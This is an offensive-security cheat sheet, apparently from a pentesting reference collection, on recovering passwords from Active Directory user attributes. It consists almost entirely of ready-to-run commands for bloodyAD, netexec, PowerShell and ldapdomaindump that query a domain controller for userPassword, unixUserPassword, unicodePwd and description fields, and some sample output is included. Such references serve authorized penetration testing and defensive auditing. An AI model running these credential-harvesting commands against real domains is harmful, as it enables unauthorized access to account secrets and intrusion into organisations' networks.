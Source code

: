 # Password - AD User Comment

There are 3-4 fields that seem to be common in most Active Directory schemas: `UserPassword`, `UnixUserPassword`, `unicodePwd` and `msSFU30Password`.

* Windows/Linux command

    ```ps1
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(|(userPassword=*)(unixUserPassword=*)(unicodePassword=*)(description=*))' --attr userPassword,unixUserPassword,unicodePwd,description
    ```

* Password in User Description

    ```powershell
    netexec ldap domain.lab -u 'username' -p 'password' -M user-desc
    netexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 -M get-desc-users
    GET-DESC... 10.0.2.11       389    dc01    [+] Found following users: 
    GET-DESC... 10.0.2.11       389    dc01    User: Guest description: Built-in account for guest access to the computer/domain
    GET-DESC... 10.0.2.11       389    dc01    User: krbtgt description: Key Distribution Center Service Account
    ```

* Get `unixUserPassword` attribute from all users in ldap

    ```ps1
    nxc ldap 10.10.10.10 -u user -p pass -M get-unixUserPassword -M getUserPassword
    ```

* Native Powershell command

    ```powershell
    Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
    ```

* Dump the Active Directory and `grep` the content.

    ```powershell
    ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
    ```
